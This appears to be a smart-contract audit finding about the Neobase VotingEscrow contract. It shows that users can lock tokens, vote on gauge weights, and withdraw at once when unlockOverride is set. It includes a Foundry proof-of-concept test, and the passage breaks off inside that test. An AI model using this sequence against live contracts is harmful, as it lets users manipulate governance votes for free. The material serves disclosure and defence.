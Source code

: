 <https://github.com/code-423n4/2024-03-neobase/blob/main/src/VotingEscrow.sol#L315-L350>

### Impact

Due to the lack of restrictions on `createLock` and `increaseAmount` when the `unlockOverride` flag is set to true, users can `createLock`/`increaseAmount` on `VotingEscrow`, vote for a gauge inside the `GaugeController` to increase the desired gauge's weight, and then immediately withdraw the locked native token from `VotingEscrow` to boost their desired gauge's weight for "free".

### Proof of Concept

When users lock their native token on `VotingEscrow`, they gain the ability to increase gauge weight on `GaugeController` based on the amount of native token they've locked, at the expense of having to lock the native token for `LOCKTIME` (1825 days) period, or until the governance toggle `unlockOverride` and set it to true.

<https://github.com/code-423n4/2024-03-neobase/blob/main/src/VotingEscrow.sol#L357>

```solidity
    function withdraw() external nonReentrant {
        LockedBalance memory locked_ = locked[msg.sender];
        // Validate inputs
        require(locked_.amount > 0, "No lock");
>>>     require(locked_.end <= block.timestamp || unlockOverride, "Lock not expired");
        require(locked_.delegatee == msg.sender, "Lock delegated");
        // Update lock
        uint256 amountToSend = uint256(uint128(locked_.amount));
        LockedBalance memory newLocked = _copyLock(locked_);
        newLocked.amount = 0;
        newLocked.end = 0;
        newLocked.delegated -= int128(int256(amountToSend));
        newLocked.delegatee = address(0);
        locked[msg.sender] = newLocked;
        newLocked.delegated = 0;
        // oldLocked can have either expired <= timestamp or zero end
        // currentLock has only 0 end
        // Both can have >= 0 amount
        _checkpoint(msg.sender, locked_, newLocked);
        // Send back deposited tokens
        (bool success, ) = msg.sender.call{value: amountToSend}("");
        require(success, "Failed to send CANTO");
        emit Withdraw(msg.sender, amountToSend, LockAction.WITHDRAW, block.timestamp);
    }
```

However, due to the lack of restrictions on calling `createLock` and `increaseAmount` when `unlockOverride` is set to true, users can lock their native token, use it to vote on `GaugeController`, and immediately withdraw the token to manipulate and boost the desired gauge weights.

Add the following test inside `GaugeController.t.sol`:

```solidity
    function testVoteGaugeWeightUnlockOverride() public {
        vm.startPrank(gov);
        gc.add_gauge(gauge1, 0);
        gc.add_gauge(gauge2, 0);
        ve.toggleUnlockOverride();
        vm.stopPrank();

        vm.startPrank(user1);
        ve.createLock{value: 1 ether}(1 ether);
        uint256 nextEpoch = ((block.timestamp + WEEK) / WEEK) * WEEK;
        gc.vote_for_gauge_weights(gauge1, 10000); // vote 100% for gauge1
        ve.withdraw();
        vm.stopPrank();

        console.logUint(gc.gauge_relative_weight_write(gauge1, nextEpoch));
```